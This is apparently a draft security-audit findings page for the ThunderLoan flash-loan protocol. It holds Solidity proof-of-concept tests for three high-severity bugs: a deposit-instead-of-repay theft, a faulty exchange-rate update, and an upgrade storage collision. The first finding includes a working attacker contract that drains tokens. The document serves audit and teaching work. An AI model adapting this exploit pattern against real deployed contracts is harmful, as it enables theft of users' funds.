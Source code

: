### [H-#] Can Stole tokens by calling deposit instead of repay or direct transfer when flash loaninng

**Description:**

**Impact:**

**Proof of Concept:**

```solidity
    function testDepositOverReplay() public setAllowedToken hasDeposits {
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fees = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor = new DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fees);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        dor.redeemMoney();
        vm.stopPrank();
        assertGe(tokenA.balanceOf(address(dor)), amountToBorrow + fees);
        // 50.15718582989109e18 stolen money
        // 50.15e18 amountToBorrow + fees
        console.log("amountToBorrow + fees", (amountToBorrow + fees));
    }

/*//////////////////////////////////////////////////////////////
                             TEST-CONTRACTS
    //////////////////////////////////////////////////////////////*/

contract DepositOverRepay is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    address s_token;
    AssetToken assetToken;

    constructor(address _thunderloan) {
        thunderLoan = ThunderLoan(_thunderloan);
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, /*initiator*/
        bytes calldata /*params*/
    )
        external
        returns (bool)
    {
        s_token = token;
        IERC20(s_token).approve(address(thunderLoan), 1000e19);
        thunderLoan.deposit(IERC20(token), amount + fee);
    }

    function redeemMoney() public {
        assetToken = thunderLoan.getAssetFromToken(IERC20(s_token));
        uint256 assetTokenAmount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(IERC20(s_token), assetTokenAmount);
        // console.log(assetTokenAmount);
    }
}
```

**Recommended Mitigation:**
add mutex lock when flashloaning??
################

### [H-#] Erorneous function `ThunderLoan::deposit` has `updateExchangeRate` function call which blocks redeem function and protocol thinks it has more funds that it is and update exchange rate to wrong value

**Description:**
updateExchangerate called by not fees collected
**Impact:**

1. block reddem
2. incorrect rate
   **Proof of Concept:**

```solidity
    function testRedeemAfterFlashLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), AMOUNT);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        vm.startPrank(liquidityProvider);
        uint256 redeemAmountByLiq = type(uint256).max;
        thunderLoan.redeem(tokenA, redeemAmountByLiq);
        // redeem amount 1003300900000000000000 1003e18
        // deposited amount  //1000e18
        //fee 0.3e18
        //amount expected to reddem => 1000.3e18; but get 1003e18
        vm.stopPrank();
    }
```

**Recommended Mitigation:**

```diff

 function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
-         uint256 calculatedFee = getCalculatedFee(token, amount);
        // @audit-high shouldnt updateRate here
-  assetToken.updateExchangeRate(calculatedFee);
        // e underlying tokens are transferd to assettoken contract
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

##############

### [H-#] storage collion makes upgraded fee way higher(Root Cause -> Impact)

**Description:**
```
----------------|
| s_flashLoanFee          | uint256                                         | 2    | 0      | 32    | src/upgradedProtocol/ThunderLoanUpgraded.sol:ThunderLoanUpgraded |
|----------------
```
**Impact:**
s_currentlyFlashLoaning also affected
**Proof of Concept:**

```solidity
  function testStorageCollion() public {
        vm.startPrank(thunderLoan.owner());
        uint256 originalValue = thunderLoan.getFee();
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 afterUpgradeValue = thunderLoan.getFee();
        vm.stopPrank();
        console.log("originalValue", originalValue);
        console.log("afterUpgradeValue", afterUpgradeValue);
    }
```

**Recommended Mitigation:**

